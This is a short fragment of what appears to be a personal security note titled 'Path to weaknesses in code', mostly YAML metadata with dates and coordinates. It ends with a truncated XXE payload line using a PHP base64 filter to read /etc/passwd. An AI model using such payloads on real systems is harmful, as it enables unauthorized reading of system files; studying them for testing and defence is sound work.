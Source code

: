 ```yaml
---
title: Path to weaknesses in code
updated: 2023-11-01 10:04:46Z
created: 2023-11-01 10:04:21Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


/convert.base64-encode/resource=/etc/passwd"> ]>